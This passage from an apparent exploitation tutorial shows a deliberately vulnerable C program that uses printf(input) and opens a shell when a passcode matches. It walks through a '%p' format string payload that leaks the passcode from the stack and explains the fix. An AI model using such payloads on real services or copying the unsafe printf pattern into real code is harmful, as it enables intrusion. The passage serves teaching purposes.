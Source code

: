 ```c
    fgets(input, BUFSIZE, stdin);
    printf(input);

    printf("Enter the passcode: ");
    fgets(input, BUFSIZE, stdin);
    if(strncmp(code, input, CODESIZE - 1) == 0) {
        system("/bin/sh");
    } else {
        printf("Incorrect. The correct passcode was %s.\n", code);
    }

    return 0;
}
```

In the code shown above, we have a function called `generate_code()` that randomly generates a passcode with a length of `CODESIZE`. In the `main()` function, we see that the user is prompted to enter a string and a passcode. If the passcode that the user types in is equivalent to the passcode that was randomly generated from the call to `generate_code()`, then the user will get a shell. The passcode is generated at runtime and changes every time the program is executed, so we can't just use the `strings` command to print it out.

```sh
$ gcc -o mem_leak mem_leak.c

$ ./mem_leak
Enter a string: hello
hello
Enter the passcode: idk
Incorrect. The correct passcode was E6UZdbLnODrjJD1lcb77ZKCzchHd92JBydaR3l2FmhotkdSA2.
```

One thing that should stick out to you is the line that says `printf(input)`. This is considered to be an insecure method of printing out C strings because if the user types in a format specifier, then the program will actually try to interpret that format specifier. For example, if the user types in "%d" as input, then the line will get reinterpreted as `printf("%d")`, which will cause the next value on the stack to be printed out as an `int`. In situations where we cannot attach debuggers (such as when we're exploiting remote targets), we can use this vulnerability to print out the values that are on the stack.

Note: The vulnerability would have been mitigated if the line was written as `printf("%s", input)`. The `printf()` function will ignore any format specifiers inside of `input` if it is passed through as a string using the "%s" format specifier.

The `code` variable is currently being stored on the stack, so why don't we just try printing it out using the format string vulnerability? We can send the target a bunch of "%p" format specifiers and separate them by periods. This will cause data on the stack to get printed out in hexadecimal format. We can then view the actual passcode and compare it with what we found on the stack.

```sh
$ ./mem_leak
Enter a string: %p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.
0x55e7ea1856b1.(nil).0x55e7ea1856de.0x7ffe3103ec90.0x7fc1cb69fbe0.0x7ffe3103eeb8.0x100000000.0x535057476d636630.0x5765597550545371.0x766447786c795434.0x324b654261473234.0x6d54723644656d37.0x3545554273326d39.0x6c.(nil).
Enter the passcode: incorrectpasscode
Incorrect. The correct passcode was 0fcmGWPSqSTPuYeW4TylxGdv42GaBeK27meD6rTm9m2sBUE5l.
```
